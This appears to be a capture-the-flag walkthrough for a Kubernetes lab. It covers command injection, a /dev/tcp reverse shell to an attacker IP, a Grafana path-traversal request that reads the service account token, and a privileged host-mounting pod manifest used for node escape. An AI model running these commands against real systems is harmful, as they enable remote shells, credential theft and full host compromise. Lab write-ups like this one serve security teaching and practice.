 Task 1

nmap -p- -Pn -sC -sT -A --reason -o nmap.scan [Target IP]
This will give us answer rot the first question.

Task 2
On website we can perform a command injection attack by typing various command like ;whoami ;id ;ls
Author tells us that flag is in Envrometal variable so lets  type ;printenv
![image](https://user-images.githubusercontent.com/58551072/155545434-44c7d8b8-2811-4078-916e-8660a5ce6b6e.png)
We have to establish reverse shell with target machine in order to complete further task
There is no netcat or python avaliable on machine for us to use. 
We have to use Command injection attack again
127.0.0.1 && bash &>/dev/tcp/[Attacker IP]/[PORT] <&1

Task 3
No answer needed

Task 4
We have access to the machine. All we need to do is follow instructions. 
Flag is there, you can analyse it with online tools

Task 5
Running env you will see there is a Grafana service running in the cluster.
We need to find what version of Grafana is used and search for vulnerabilities
Still in console that is connected to the target machine
curl http://grafana:3000/login/ - Text is long but it is easy to find ;)

 

Task 6
I had trouble with running exploit but when googling around I have found solution
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
Now we have token
To get service account name we can use option "get serviceaccount" and token that we have found
To get next two answers all we need to do is fllow instruction. Flag 3 is in same place as flag 1

Task 7
First we need to prepare .yaml file

apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
 
To get file into TARGET machine lets start ftp server on our machine
then simply curl http://ATTACKER IP:PORT/file.yaml
to get last flag use find / -type f -name root.txt
   

